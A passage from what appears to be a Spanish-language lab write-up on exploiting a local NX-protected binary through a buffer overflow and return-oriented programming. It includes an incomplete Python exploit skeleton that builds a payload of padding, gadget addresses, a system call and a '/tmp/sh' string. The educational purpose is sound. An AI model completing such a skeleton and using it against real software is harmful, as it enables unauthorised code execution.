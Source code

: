 • Con `checksec` vemos que el binario tiene NX como protección, lo que significa que la pila no es ejecutable y no podemos hacer una explotación como la anterior, y solo nos quedan 3 chances:

 1: Apuntar a una función interesante que pueda por ejemplo ejecutarnos una shell

 2: Buffer overflow de tipo ret2libc

 3: Buffer Overflow de tipo ROP(Return-Oriented Programming)

En este caso haremos un ROP, ya que es lo mas fácil para este binario.

Base del exploit:

```python
import subprocess
import struct


def p64(num):
    return struct.pack("<Q", num)        

def exploit():

  binario = ["./shell"]

  offset = ?
  junk = b"A"*offset
  


  pop_r13 = ?
  _x2 = ?
  system = ?
  tmp_shell = b"/tmp/sh\x00"
  

  payload = junk + tmp_shell + pop_r13  + system + _x2

  p = subprocess.Popen(
          binario, stdin=subprocess.PIPE
  )
  p.stdin.write(payload + b"\n")
  p.stdin.flush()

  p.wait()

if __name__ == '__main__':
    exploit()
```

Esta vez, en lugar de conectarnos a un servicio remoto, ejecutaremos el binario localmente y lo explotaremos directamente. En un principio lo único que conocemos es "tmp_shell", ya que es lo que vamos a ejecutar al explotar el binario (también podriamos ejecutar `/bin/sh` pero yo ejecutaré un script). Además definimos una función `p64()` la cual se encargará en convertir direcciones en una representación binaria de 64 bits en little-endian, para que sean interpretadas correctamente por la arquitectura.
